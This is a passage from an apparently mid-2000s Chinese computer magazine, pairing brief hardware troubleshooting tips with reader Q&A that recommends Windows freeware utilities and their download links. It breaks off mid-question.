维修时，卸下显影器，取出墨粉筒，查看墨粉是否不足，接着检查磁穗，并注意墨粉与载体混合是否正常，如一切妥帖，则可以排除显影器上的问题。如果感光鼓已经使用过很久，可尝试换一新鼓试试。此外，检查转印电极外端绝缘座上是否有烧焦的痕迹。如果绝缘端块沾污了墨粉有可能导致转印电极对地短路并将绝缘端块击穿烧焦，从而使转印电压过低，不能有效的将墨粉图像吸附到复印纸上而造成复印品图像浅淡故障的发生。

## 数码相机小故障两则

闪光灯不发光的故障原因大致有以下几种：未设定闪光灯；闪光灯正在充电；拍照物明亮；闪光灯硬件故障。前面几种故障的处理办法也比较简单。未设定闪光灯，可以按闪光灯弹起杆，设定闪光灯。如果闪光灯正在充电，则要等到橙色指示灯停止闪烁。拍照物体明亮，可以使用辅助闪光模式，强制闪光。在其它方面均正常的情形下，仍无闪光，则可能闪光灯本身出了问题，需要送修。

按快门释放键时不能拍照的问题，则很可能是刚拍的照片正在被写入闪存卡，闪存卡已满，无法正确聚焦，电池耗尽等原因。如果是闪存的问题可以稍微等数据写入后再行操作，如果卡容量已满，只要删除一些不要的照片就可以了。如果是因为拍照物不处于照相机的有效工作范围，或者自动聚集难以锁定。可能需要调节是否是正常距离，启动微距或超微距模式。

## USB扫描仪识别故障的排除

如果你的USB接口扫描仪不能被电脑识别，可能是以下几种原因造成的。如果主板的USB功能未激活，则需要进入BIOS设置界面，开启该功能。还有一种可能会出现在比较老的系统中，就是USB端口供电不足，这时尽可能只让USB接口使用单个设备，拔掉扫描仪以外的所有设备。此外，虽然USB接口支持热插拔功能，但在扫描仪工作的过程中“强行”插拔的话，扫描仪的USB接口就很容易出现假死现象。这时系统多半也不能将它识别出来。可以进入到系统的设备管理器窗口，卸载扫描仪驱动，然后扫描硬件改动，系统会自动找到扫描仪并重新安装驱动。

## MP3固件升级失败后的补救

如果升级失败后，电脑还能认得出来你的MP3，那可能就比较简单，分析升级失败的原因，重新按照程序再次进行升级操作一次通常就能解决。如果电脑无法识别你的MP3，可以先在电脑上安装MP3播放器的驱动程序；按住开机键（有部分机型是播放键），同时插入USB线连到电脑，并且保持按住开机键10秒以上，然后放开，这时候电脑会报告发现一个新硬件，并提示安装驱动，接着就可以升级并格式化处理，如果不行可以多试几次，还不行就只能送修了。

## 用RMAA来测试你的声卡

一般我们看到的声卡评价大多是很主观的听觉感受，这并不准确。好在现在有了RMAA（RightMark Audio Analyzer），这款测试软件就能很好的解决问题。

测试前关闭其它软件，准备一条音频连接线，将两头分别插在声卡的Line out或Speakers out接口和Line in接口上。进入控制面板的音频设置把3D环绕、重低音、音调控制之类的选项关掉，打开“录音下的录音控制”，去掉其他选项，选择“线路输入”。下载并启动RMAA后，在软件主界面上的“Playback/recording settings”中选择自己要测试的音频设备。而在这一旁的下拉菜单中为声卡的处理位数和采样频率。一般主板集成的AC'97声卡的Codec芯片的处理位数和采样频率为16bit/48kHz。

在做好测试准备后，点击“WIZARD（向导）”按钮在向导中依次设置下去。首先需要测试模式进行选择，软件从上到下依次为回路测试、放音测试、录音测试、保存测试信号和读取测试信号。一般选择常用的回路测试。之后一直Next下去，软件就会给出声卡的综合评定。测试结果还可以存储为HTML文档。

RMAA下载地址：http://www.audio100.com/4/139.htm。

## 主板上键盘接口不能使用

接上一个好键盘，开机自检时出现提示“Keyboard Interface Error”后死机，拔下键盘，重新插入后又能正常启动系统，使用一段时间后键盘无反应，这种现象主要是多次拔插键盘引起主板键盘接口松动，拆下主板用电烙铁重新焊接好即可；也可能是带电拔插键盘，引起主板上一个保险电阻断了（在主板上标记为Fn的东西），换上一个1欧姆/0.5瓦的电阻即可。如果无电路方面的动手能力，可送修解决。

## 光驱无法弹出光盘的处理

光驱有时候会出现托盘无法弹出的情况，一般只要用一根针插入光驱面板上的紧急弹出孔，即可将光驱托盘弹出。如果经过上述处理后，光驱托盘还是无法完全恢复正常，则需要卸掉光驱外壳，检查内部一条末端连着托盘马达的皮带是否干净，是否有错位，同时也可以给此皮带和连接马达的末端上油。上油的量一定控制得尽量少。然后将光驱重新安装好即可。

## 降低电脑的噪音

首先是震动产生的噪音，如果主机或配件只要是有螺丝固定的地方，没有上紧或者长时间的使用慢慢松了的情况，就会因为设备自身震动而产生噪音。当然消灭这些震动噪音也很简单，只要把相应的螺丝上紧就可以了。其次，风扇在运行中会发出噪音，我们注意要常清理灰尘，对风扇的轴承适当的添加润滑剂，购买风扇时，不要盲目追求大风量，选择噪音小，相对稳定的风扇。再其次，就是一般情况都要盖上机箱，有的读者可能认为不装机箱盖，可以很方便的拔插机内的硬件，或者这样增加散热，但是这样却让噪音直接释放出来了，并且辐射也可以直接射出，使工作者的健康和心情受到威胁。

## 网卡假冲突的应对

也许你给网卡分配IP地址时，系统会自动弹出提示窗口，告诉你当前分配的IP地址，已经和系统的另外一块网卡地址发生冲突了；可是，计算机中明明只安装了一块网卡。这种现象多半是你改变了网卡的PCI插槽位置，而系统注册表仍然保留了原始位置处的相关信息所导致。这时，我们打开“开始”菜单中的“附件/命令提示符”，在DOS命令行中，输入“set devmgr_show_nonpresent_devices=1”并回车；接着继续执行“Start DEVMGMT.MSC”命令，打开系统的设备管理器窗口；再单击该窗口菜单栏中的“查看”/“显示隐藏的设备”命令，然后从设备列表中展开“网卡”项目，随后你将看到一个灰色调的网卡图标，将其卸载后就不会再出现冲突了。

## 笔记本也用双屏显示

经典的IBM ThinkPad T20系列机型可以使用双屏显示功能，但IBM提供的Windows 2K显卡驱动并不支持，而Windows XP的驱动则可以。首先连接好外接显示器，打开外接的显示器，然后把T23开机。在桌面点显示属性，在Settings一栏可以看到“1,2”这样的字样，选2即外接显示器，然后在下面的Extend my Windows desktop onto this monitor打上钩，最后调整好分辨率和颜色，点击Apply就可以了。使用时打开程序窗口，把这个窗口拉到笔记本显示屏之外，就会在外接显示器上显示出来了。

## 转换无线网络后无法使用的技巧

一台笔记本电脑在接入一个无线网络正常后，接入另一个无线网络时它无法连接。这种情况很可能是因为忘记重新将服务区标识符（SSID，Service Set Identifier）修改回应有的标识符了。

## 扫描仪无法扫描图像

一台SCSI接口扫描仪出现有时能扫描有时又无法扫描图像的故障，一般依次按照以下步骤对设备进行检查：首先，确保扫描仪的READY灯长亮；接着检查图像来源设置，表示扫描仪的Twain已经被选中；第三，运行扫描仪测试程序，扫描仪与计算机连接正常；最后，检查SCSI的ID号是否出现了冲突，重新设置后可以正常使用。

## 一句话技巧

- 1. 光电鼠标不适宜在透明和红色表面上使用。
- 2. 如果我们在安装Windows系统中出现“拷贝文件错误”，一般由内存故障所引起，可以通过在BIOS中调低内存运行参数或者更换内存解决。
- 3. 在使用喷墨打印机墨盒装填墨水时，一般填充超过十次或一个墨盒使用超过一年，最好考虑更换新墨盒，避免出现各种问题。
- 4. BIOS为AWARD 6.0以上版本的所有主板，开机时按键盘左上角的ESC键就可以调出启动设备菜单，可以修改引导设备而不用进BIOS进行修改。

## 提升DVD刻盘成功率的小技巧

首先，如果条件允许，DVD刻录机最好单独使用一个IDE通道；其次，在系统中打开UDMA数据传输方式；第三，一般厂商在更新DVD刻录机的Firmware时，会不断将市场上出现的各种盘片的Media ID加入其中，所以我们要及时更新DVD机的Firmware，这样可以大大提高对盘片的兼容性，让刻录机正确识别各种DVD盘片。最后，就是适当降低刻录速度，不少DVD刻录盘只支持4×刻录却假冒支持8×刻录速度的盘片，这些盘片如采用高倍速刻录，自然容易刻出“飞盘”了。

## 如何在DOS下使用笔记本的PCMCIA光驱

首先，格式化并制作一张可以启动系统的软盘，并将Windows目录中的himem.sys和mscdex.exe文件拷贝到软盘中；然后到笔记本电脑厂家的网站上下载PCMCIA驱动器的驱动程序，并将下载的驱动程序包中的所有文件拷贝到软盘中（这里以ThinkPad600为例，不同的PCMCIA卡方法基本一致），然后编辑CONFIG.SYS文件，加入下列内容：

```
DEVICE=himem.sys
DEVICE=A:\PCM180CL.SYS/Q9/P0
DEVICE=A:\STATPCDM.SYS/D:MSCD001
```

编辑autoexec.bat文件，加入下列内容：
```
mscdex.exe/d:mscd001
```
以上工作完成以后，当需要在DOS下使用PCMCIA光驱时可以用这张启动盘来启动系统，系统便会自动加载PCMCIA光驱的驱动程序，这样就可以在DOS下使用PCMCIA光驱了。

## 如何鉴别硬盘

使用Everest Pro（原名AIDA32）来确认硬盘的转速以及缓存容量等硬盘信息。至于硬盘坏道的检测，可以采用“效率源”软件（在http://www.skycn.com/soft/11866.html下载），它提供多种检测方式，其中“硬盘坏道全盘检测”将会对硬盘进行全盘扫描，一般40GB的硬盘只需耗时20分钟，比Scandisk快很多。

## HP一体机打印作业自动消失怎么办？

在系统上安装HP一体机软件后，可以使用扫描，复印等功能，但一发打印作业，右下角出现打印机打印小图标后，马上就自动消失了，打印作业无法发出。这很可能是由于系统中安装了针式票据打印机的驱动，如EPSON的1600K或是580K等针式打印机驱动程序，且用过这款驱动打印票据等内容，就会导致惠普一体机驱动不能实现打印。解决办法是尽量不要在同一个Windows操作系统下同时安装HP一体机与EPSON针打驱动。

## Modem经常断线的解决方法

Modem经常断线的原因大多是由于线路质量不好或者电话线上的干扰比较大等原因，这时可以适当地降低串口的速率。解决办法是：点击“开始→设置→控制面板→调制解调器”，从Modem中选择“属性→连接页面→高级选项”，在附加设置中填入“S10=50”和“S25=200”，其中前者可以强制Modem在载波暂时丢失时保持5秒钟的连接状态，而后者则可以强制Modem在DTR（Data Terminal Ready，数据终端就绪）信号瞬时无效时保持两秒钟的连接状态，这样就可以避免同线路传输质量不良时Modem发生断线的故障。

## MP3播放器无法开机的解决

一般MP3播放器无法开机之后，对它进行格式化操作可以解决大部分问题，但是这个格式化操作并不是利用Windows系统中的格式化功能，而是利用厂家专用的MP3管理工具对它进行格式化，这样应该可以解决问题。

## 如何进行CMOS放电

最直接的方法就是找到主板上的CMOS电池，把它从主板上取下来，并把电池槽的正负极用金属短接，等待一会儿装上电池然后重新开机。如果信息仍然存在，就需要关机更长时间，执行同样操作。另外，还可以用跳线来对CMOS放电，通过主板说明书来查找跳线的位置，一般通常都在电池附近，多为三根针，依次被编号为1、2、3。原本跳线帽是套在1和2上，将跳线帽取下，插到2和3，即可清除CMOS设置。清除完后必须再接回1、2模式，否则启动时会报错。

## 一句话技巧

- 1. 虽然开机时会显示显卡的BIOS版本信息，但由于一闪而过无法将其记下来，其实在Windows启动后，打开显示属性，选择“设置→高级→适配器”，在“适配器信息”一栏中就可以看到当前显卡的BIOS版本信息。
- 2. 在Windows98下使用一些老声卡时，会发现播放音乐时，其他声音就无法发出的情况，这是因为声卡对多音频流的支持不够好，可以通过安装WDM驱动来解决问题。
- 3. 虽然目前大多数的CRT都通过相关的安规认证，但考虑到目前不少CRT显示器的各种认证真假难辨，因此大家在选择CRT显示器时，可以将手机放在显示器旁边、通过拨打电话来检验显示器抗干扰能力：如果显示器出现较大面积的波纹状，则说明显示器抗干扰能力差。

## 针式打印机轻松换色带

虽然不同类型的针式打印机，它们的色带架的结构都不尽相同，但运转原理都是大同小异的。首先，打开打印机上盖，你会看到一个形状像个夹子的盒子，我们称它为打印架，它中间空的部分安放的就是打印头。拆下打印架，打开它，接着仔细观察原色带的绕法，注意打印架中的两个齿轮要夹着色带，而且应该跟它们平行。否则色带随着齿轮的转动会发生移位，进而卡住齿轮。色带装好之后，把打印架装回到原位即可。

## ADSL在数据流量增大时死机的解决

这种情况多是因为网卡的品质或者兼容性不好所引起，特别是老式ISA总线10Mbps网卡，由于ADSL所用的PPPoE协议是比较新的一项技术，这类网卡兼容性可能会有问题，并且速度较慢，造成冲突，最终线路锁死，甚至死机。

## 只用电源和DVD光驱听CD

首先确定一下你使用的是什么电源，如果是以前的AT电源，则只要用连接机箱电源的电源线接在电源插座与电源之间，然后把电源上的5V电源输出线接到DVD-ROM上，打开电源开关就可以直接听CD音乐了。如果你使用的是ATX电源，由于ATX电源并没有供电开关，需要使用一小段导线将ATX电源接口上的绿线与灰线短接，这样也可以直接使用你的DVD-ROM来听CD了。但如果没有相关电工知识请不要轻易动手。

## 一句话技巧

- 1. 现在组建的网络一般都采用5类以上的双绞线，但实际购买时很难辨认真伪，建议先购买一段，利用Windows操作系统中“系统监视器”或“网络监视器”亲自测试一下。如果测试速度达到了100Mbps，则表明是5类双绞线。
- 2. 数码照片在冲印时，有的会被剪裁掉一些内容，这是因为冲印相片的通常比例是3:2，而拍摄的照片尺寸不合乎规格，因此如果不希望被裁剪，还是尽量使用合乎冲印要求的尺寸吧。
- 3. 现在市场上有很多VCD清洁光盘出售，不少朋友就用它来定期清洁光驱，其实这是万万使不得的，这种光盘上有两排小刷子，当用这种VCD清洁光盘清洁光驱时，这两排小刷子就成了激光头的杀手，不仅会划伤激光头，严重时还会撞歪激光头，使其定位不准，无法从光盘读取数据。

## 如何进行显示器亮度与对比度的调节？

CRT显示器亮度的调整事实上是调整显示器的黑色，对比度的调整则是调整显示器的白色。在调整亮度和对比度时，最好先开启一个全黑的图像，然后将亮度降低到图像的黑与显示器周围边界的黑一样；如果你觉得显示器太暗，白色也比较灰，可以开启一个黑底白字的图像，再开始设置对比度，直到白色接近纯白，且不会产生模糊不清的情况。当然，你也可以把对比度设置到眼睛觉得舒服为止。这样显示器显示的图像会更加锐利，颜色也更为精确。

## 光标乱跳“故障”的排除

一台电脑使用光电鼠标，屏幕上的光标总是在鼠标移动时无规律地乱跳，很难控制！可是，把它接到别的机器上，却又没有问题！这很可能是鼠标所用的鼠标垫是一块会反光的材料，光电鼠标下面如果垫了反光物，会使鼠标对位置的辨别出现错误。只要更换个鼠标垫即可解决问题。

## 在无光、软驱的电脑安装移动硬盘驱动

在Windows 98工作站中，使用移动硬盘需要安装驱动程序。不过要是电脑恰好没有光驱或软驱的话，那么安装移动硬盘的驱动程序就不那么容易了。这时，我们可以在带有软驱的Windows 98系统中制作好启动盘，并且将所有内容拷贝到移动硬盘，接着再把驱动程序也拷贝进移动硬盘，之后，将移动硬盘接入到需要安装移动硬盘驱动的电脑，通过移动硬盘的系统引导功能，将Win98系统先启动到DOS环境下，拷贝驱动程序到硬盘后，再次以正常方式启动电脑，并安装驱动即可。当然，这种方法仅限于支持系统引导功能的移动硬盘和主板。

## 误格式化硬盘数据的恢复

基本上在DOS高版本状态下，格式化操作都建立了用于恢复格式化的磁盘信息。这样我们可以使用多种恢复软件来进行数据恢复，比如使用Easyrecovery 6.0和Finaldata2.0等恢复软件均可以方便地进行数据恢复工作。另外DOS还提供了一个mirror命令用于记录当前的磁盘的信息，供格式化或删除之后的恢复使用，此方法也比较有效。

## 第一期

### 微软出品的壁纸变换工具：桌面壁纸自动换

问：Windows中的桌面壁纸总是一成不变，单调无趣，我知道有很多可以自动更换桌面壁纸的软件，其中比较好的是哪款呢？

答：为你推荐一款微软出品的桌面增强工具Slide Show（壁纸自动换），想一想有谁开发的软件运行在Windows平台上时，能比微软自己开发的更稳定可靠呢？软件安装后会集成在“显示”属性中，可以用指定文件夹下的背景图片自动切换壁纸，并且还可以设定自动更新壁纸的时间，从一秒到一小时，甚至一个月，或者在每次启动Windows系统时自动更换新壁纸。

将软件下载并安装后，在桌面空白处右击，选择“属性”，调出“显示属性”，然后点击“桌面自动换”标签，接着勾选“开启桌面壁纸自动换”项，再设置好“图片”文件夹及“频率”项即可。

软件版本：汉化版
软件大小：76KB
软件性质：免费软件
适用平台：Windows XP/2003
下载地址：http://www.newhua.com/cfan/200501/slide_show.rar

（福建 曾春红）

### 最好的BT种子查找利器：BT搜宝

问：我喜欢用BT下载，但种子来源是个问题。找BT种子很麻烦，需要登录不同的网站，查看不同帖子。有时为找一个目标，不得不跑几个网站。有没有解决这个问题的软件呢？

答：有了“BT搜宝”，就省去了你东寻西找的麻烦，它可以把一些较大BT网站的数据分类收集在了一起，让你选择下载。
BT搜宝是一款绿色软件，下载解压后双击BTBaby.exe文件。打开软件，点击“更新资源列表”按钮，根据不同网络环境在几分钟或十几分钟后，软件就会找到BT种子。根据需要在BT资源列表中，双击要下载的种子项，当种子下载完毕，BT客户端就会自动启动并下载相应的文件了。如需同时下载多个种子可勾选数个BT种子资源，右击，选择“下载并保存种子”或“下载种子并启动BT软件”项。通过“参数设置”项，我们可以修改种子保存的目录及记录保存的时间（过早的种子是无法下载的）。除了上面这些功能外，软件还提供了“搜索BT资源”的功能，只要你知道关键词，就可以很轻松的搜索到所需要的种子。

软件版本：1.2
软件大小：4470KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.onlinedown.net/soft/34947.htm

（山东 盖述功）

### 游戏高手的修炼工具：Reflex

问：我游戏打的一直不好，听那些高手说什么“微操作”，这是什么呢？听说还有一些专门的游戏可以练习，可以介绍一下吗？

答：玩过星际争霸的玩家一定知道“小操作”和“微操作”。所谓“小操作”就是屏幕上所见兵种的移动和攻击，即是游戏内部的事情；而“微操作”则是分析如何用键盘及鼠标来完成大家在屏幕上看到的那些移动和攻击。如果说简单点就是用“微操作”来做“小操作”，无论“小操作”设计过程规划得多么完美，终究还是要用“微操作”来实现的。能否实现“微操作”也是高手与新手实力差距的重要体现。

要想成为高手，除了要多打那些即时战略游戏或第一人称射击游戏外，还要多玩一些小游戏，这样可以练习反应及鼠标点击的准确率。这里为你推荐一款很多游戏高手都在玩的小游戏——Reflex。
打开游戏，点击鼠标左键后，开始游戏。你要做的是瞄准那些忽大忽小靶子的靶心点击鼠标，游戏会根据你点击靶子的位置，给出不同的分数。如果没有打中，则会扣除1000分，全部完成后，还可以将成绩与互联网上的高手比较。另外用这款游戏来测试鼠标的好坏也是不错的游戏。

软件版本：1.0
软件大小：1.55MB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.newhua.com/cfan/200501/reflex.exe

### 代理问题全面解决：ProxyCollector & Verify Proxy

问：我在访问一些国外的网站时需要代理服务器，请问有没有能够得到代理服务器的软件呢？

答：很多朋友都需要使用代理服务器，而搜索代理的软件最有名的就是“QQ代理服务器”，但这款软件收集的代理有限。下面为大家介绍的软件名为ProxyCollector，它找到近千个代理服务器。

软件版本：1.2
软件大小：1343KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.newhua.com/cfan/200501/proxycollector.rar

ProxyCollector的运行需要Java虚拟机（下载地址：http://www.newhua.com/cfan/200501/jvm.exe）。将软件下载并解压缩后，运行主程序proxyCollector.exe，进入后，在左上角的窗格中选择好代理服务器网页（默认为全选），然后点击“开始”按钮，软件就会开始搜索代理。完成后点击“保存”按钮，将导出的代理服务器列表保存为TXT文本文件。
有了服务器列表，自然要从里面找出可用的、速度快的代理服务器，要用的软件就是Verify Proxy。将软件下载后，点击“导入”按钮，将代理服务器列表文件导入，通过“验证”按钮，验证导入的代理服务器。完成后，通过“导出”按钮，将全部代理列表导出即可。

软件版本：N/A
软件大小：284KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.newhua.com/cfan/200501/special.exe

## 第二期

### 带宽就要平均分：NetLimiter

问：我们几个室友，一起申请了ADSL，结果有一个人特别喜欢用BT下载，占用了所有带宽，我们又不好说他什么，请问有没有可以限制带宽的软件呢？

答：很简单，使用NetLimiter就能解决你的问题，该软件用来专门限制带宽上限，它可以为不同软件设置不同带宽上限，只要将这款软件分别安装到宿舍里的每一台电脑上，并设置好限制带宽即可。
安装软件并重启后，软件会自动运行并弹出设置向导，这时，你可以根据向导窗口右侧的IP来选择Internet Zone（互联网IP）或Local Zone（本地IP），除非你的IP比较特殊，才需要修改这些设置，通常只要直接点击OK按钮即可。

软件版本：2.0
软件大小：1.2MB
软件性质：共享软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.newhua.com/cfan/200501/netlimiter.exe

现在可以打开任意下载软件，如FlashGet、比特精灵等，这时软件主界面中会显示出相应程序，只要设置好Down Limit（下载限制）及Up Limit（上传限制）数，然后在旁边的方块中勾选即可。

软件版本：1.30
软件大小：542KB
软件性质：共享软件（28天使用限制）
适用平台：Windows 9x/2000/XP
下载地址：http://www.netlimiter.com/download/nl_v130.exe

### 随心所欲修改系统服务：系统服务优化终结者

问：我在2004年第18期《摆脱龟速让Windows真正飞起来》中了解了系统中有很多服务，请问有没有软件可以按照我不同时刻的需要而自动停止或打开不同的服务呢？

答：的确有这样的软件，它可以根据不同需要，自动打开或停止一些服务。软件名字是“系统服务优化终结者”。
打开软件后，可以在主窗口中看到所有的服务列表，勾选需要调整的项目，然后点击窗口上侧的按钮，就可以快速启动、关闭、暂停、恢复服务了。另外，还可以在窗口下侧修改服务的“启动类型”，最后，点击“应用”即可。
除此之外，软件最大的特色就是自动设置：点击软件窗口中的“快速配置”按钮，然后根据需要选择一种适合的设置，点击“应用”即可。注意，建议修改后重启电脑，以便关闭所有的服务。
不过建议你在使用这款软件时，首先建立多个账号，比如专门用于游戏的Game账号，然后再使用“快速配置”下的“游戏配置”对当前账号进行优化。

软件版本：2.1.1 Final
软件大小：1.32 MB
软件性质：免费软件
适用平台：Windows 2000/XP
下载地址：http://www.lynnnet.org/软件下载/系统服务终结者v2.0.0.rar

### “老爷机”放DVDRip：Mplayer + MPF + KK

问：我有一台闲置电脑，有时用它看看DVDRip，但速度很慢，请问有没有解决方法呢？

答：2004年我们就介绍过这方面的软件——Mplayer，现在为你推荐的是它的集成版，由于是集成版本，所以安装后会得到更多功能。比如，不必再安装其他插件；占用资源少（以至于快进及后退时几乎感觉不到停顿）；轻松修复损坏的视频文件等。另外，它可以重建时间索引，原来不能拖放进度的电影可以任你拖放了。其特有的反锯齿字幕技术，让字幕再大也清晰，对于影音不同步的视频它能方便地调整声音或字幕延迟。
将软件下载后，直接安装，如果需要播放视频文件，只要双击桌面上的MPlayer，然后选择要播放的文件即可。最后再告诉你四个有用的快捷键：[（声音延迟+0.1秒）、]（声音延迟-0.1秒）、X（字幕延迟+0.1秒）、Z（字幕延迟-0.1秒）。

### 利用BT原理的网络电视：CoolStreaming

问：有时在单位加班，想通过网络电视看体育比赛，可是很多网络电视网站的链接速度很慢，请问有没有速度比较快的网络电视软件呢？

答：现在网络出现了一款使用BT原理的网络电视软件，名为CoolStreaming。它就像BT一样，同时看的人越多，速度越快，而且如果你的BT下载速度快，那么用它来看电视也一样会很快。
打开软件后，稍候就会出现选台界面，双击需要看的电台，打开Windows Media Player或其他媒体播放器，进行播放。如果软件没有打开播放器，你也可以手动，在播放器中打开http://localhost:6789/1.asf，观看电视。另外，在刚刚开始播放时，可能会比较“卡”，但一般10分钟后就会很流畅了。

软件版本：0.0.40
软件大小：2.68MB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://personal.ie.cuhk.edu.hk/~xyzhang2/CoolStreaming.exe

### 不用上QQ查看好友在线状态：QQ在线状态查询器

问：我想查询一个好友是否在线，可又不想让他知道我上线了，请问有没有这方面的软件呢？

答：这种情况你可以在QQ登录面板中勾选“隐身登录”，然后再登录上线，这时由于你是以隐身状态登录，所以可以查看好友是否在线，而QQ好友并不知道你已经登录，但这个功能并不完美，有时还是会出现上线提示，如果你遇到这个问题，建议你试试“QQ在线状态查询器”这款软件。它不用你登录QQ就可以判断QQ好友是否在线。
软件使用很简单，在“请输入要查询的QQ号”后输入QQ号，然后点击“查询”即可。需要注意不管好友是隐身状态，还是离线状态，返回的“QQ状态”都是“离线”。

软件版本：1.0
软件大小：10KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.onlinedown.net/soft/37076.htm

### 第三期 换了网卡也不愁：MAC地址更改精灵

问：我用的是小区宽带，前段时间给电脑换了一块网卡后，结果就无法上网了，听说是因为路由器绑定了网卡的MAC地址，请问有什么解决办法？

答：的确，为了安全，现在有很多小区宽带都在路由器上绑定了网卡的MAC地址，如果想解除此限制，可以使用“宽带路由器”（最便宜的不到200块钱），这样还可以实现多台电脑共享上网，注意使用这种方法后，在BT时，需要进行端口映射。
另外再推荐你使用一款不错的软件“MAC地址更改精灵”，它可以对电脑的MAC地址进行修改，只要将新网卡的MAC地址修改为老网卡即可。进入后，直接修改“厂家编号”、“硬件编号”，然后点击“修改MAC”按钮即可。如果想修复只要点击“MAC复原”按钮。

软件版本：2.21
软件大小：809KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://xsjedu.go.nease.net/mac221.exe

### 批量下载的利器：DownUp2U

问：我想下载几个网站的MP3和SWF文件，请问有什么好办法吗？

答：推荐你最新下载工具DownUp2U。它除了可以像FlashGet那样下载文件外，还能按照设置好的“规则”进行下载。比如要下载某个网站的MP3和SWF文件，则只要建立一个相应规则即可，以后需要下载其他站点的MP3及SWF文件时，只要使用相同规则就行了。
下面主要介绍它的“规则”下载功能。打开软件后，在窗口左侧窗格中的“规则”项上右击，选择“新建规则”。在弹出窗口中的“规则名”中输入“下载MP3及SWF”（不含引号），然后点击“文件类型”标签，设置“仅下载以下扩展名的文件”并勾选“.mp3”及“.swf”两种文件，点击“确定”回到主窗口。右击窗口左侧窗格中的“站点”项，选择“新建站点”项，在弹出窗口中的“站点名”中输入站点的名称，在“主机URL”中输入网址，然后在“规则”标签的下拉菜单中选择“下载MP3及SWF”项，点击“确定”即可。

软件版本：1.0 build1215
软件大小：3388KB
软件性质：共享软件（未注册版只能同时下载一个站点）
适用平台：Windows 9x/2000/XP
下载地址：http://www.downup2u.com/download/Setup_CN.exe

### 删除任意文件的利器：KillBox

问：我在杀毒时，有些文件不能删除，请问有什么好办法删除它们吗？

答：推荐你使用KillBox这款软件，在国外的反病毒论坛中，你经常会看到高手们告诉你如何用这款工具与HijackThis配合使用。
打开软件后，用“浏览文件”按钮，选择要删除的文件，然后点击“删除此文件”按钮即可。如果需要，你可以选择“普通删除模式”、“删除后重启电脑”或“替换后重启电脑”（需要设置替换的文件）。如果有必要，还可以在删除前结束相关的进程或反注册DLL文件。

软件版本：汉化版
软件大小：31KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.newhua.com/cfan/200503/killbox.rar

### 提前体验Longhorn的3D桌面：The SphereXP

问：听说Longhorn使用了最新的Avalon图形绘制技术，该技术据说会用在Longhorn上，不过后来又听说已经可以用在Windows XP SP2及Windows 2003 SP1上，我对这个很感兴趣，请问有没有提前可以体验的工具呢？

答：Longhorn的Avalon图形绘制技术的强大之处你可以在http://tech.sina.com.cn/s/2004-10-22/0933444910.shtml处了解到。不过目前我们还没办法使用它，如果你对它感兴趣，可以先用The SphereXP这款软件，它可以让你先一步体验Avalon技术的魅力。
安装并运行软件后，你就会看到一个3D的桌面，点击桌面空白处后，你所有的窗口都可以移动到背景深处。通过鼠标滚轮或按下右键后拖动鼠标还能体验到The SphereXP更强大之处。另外，右击桌面空白处，选择Properties（属性），可以对程序进行设置。最后再告诉你一个小技巧：用右键选中不同的窗口或图标，上下移动鼠标，可以改变其大小。

软件版本：0.80.5
软件大小：909KB
软件性质：免费软件
适用平台：Windows 2000/XP
下载地址：http://www.hamar.sk/sphere/download/SphereXP.0-80-50.exe

### 告别TT 让QQ用上IE：QQ浏览器转IE工具

问：我在用QQ和好友聊天时，点击聊天窗口中的链接，总会打开TT浏览器，请问有什么办法可以不用它打开吗？

答：我们以前已经介绍过相关技巧了，如果你觉得麻烦，可以试试这里介绍的“QQ浏览器转IE工具”，它可以帮你解决这个问题。将软件下载后，分别设置好IE及TT浏览器所在路径，然后点击“替换文件”即可。

软件版本：2.0
软件大小：218KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.skycn.com/soft/21561.html

## 第四期

### 轻松获得外网地址：IP2

问：我是一个内网用户，有时想知道我的外网IP是多少，请问怎么查呢？

答：现在很多宽带用户都处在“内网”之中，即电脑所分配的IP地址是Internet的保留地址，比如192.168.X.X。内网用户要想知道自己的IP地址，就要使用一些小技巧了，这里为你推荐一款名叫IP2的小软件。
运行IP2后，点击Find my IP addresses（查找我的IP地址）按钮，这样在WAN IP栏中就会显示出你的外网IP了。

软件版本：1.03
软件大小：13KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.newhua.com/cfan/200504/ip2.exe
（山东 孤侠）

### QQ昵称轻松变个样：QQ个性昵称

问：我看过以前《电脑爱好者》介绍过QQ昵称个性化的方法，虽然已经简单了，但我的一个QQ好友怎么也不明白，请问有没有更简单的方法呢？

答：如果你还需要更简单的昵称个性化方法，推荐使用“QQ个性昵称”。
将软件下载后，在“QQ昵称”中输入好昵称，在“选项”下选择好变换昵称的形式，最后点击“转换”，然后打开QQ的“个人设置”，将改好的昵称粘贴好即可。

软件版本：1.0.0
软件大小：33KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.onlinedown.net/soft/37425.htm

### 网上免费的文件收藏箱：网络驿站

问：有时，我想与好友共享一些图片、RAR文件、Flash动画文件，可是苦于没办法找到网络空间。有时，我想往论坛上传一些图片，可是受论坛所限，总是失败，非常麻烦，请问有没有解决方法？

答：现在有很多方法可以与好友共享文件，比如QQ、UC等即时通讯工具或一些网站提供的网络硬盘。如果这些都无法满足你的要求，可以试试“网络驿站”。它内置了10多个免费空间（无须注册，没有空间限制），你可以轻易地将文件上传。
打开软件后，点击“添加文件”按钮（如果多个文件，可以将它们放在同一文件夹，然后点击“添加目录”按钮），然后在窗口右侧的“可选服务器”中选择一个要上传的服务器，并点击“立即上传”按钮，最后在“已上传”项下，就可以看到已经上传的文件了。点击该文件后，可以在“图片连接地址”中得到上传后的地址。

软件版本：2.0
软件大小：842KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.onlinedown.net/soft/37423.htm

### MSN Messenger也能群发消息：MSN好友消息群发工具

问：我们公司平常用的即时通讯工具只有MSN Messenger，如果要开会，还要一个一个通知，请问有没有软件可以同时给几个MSN Messenger好友群发消息呢？

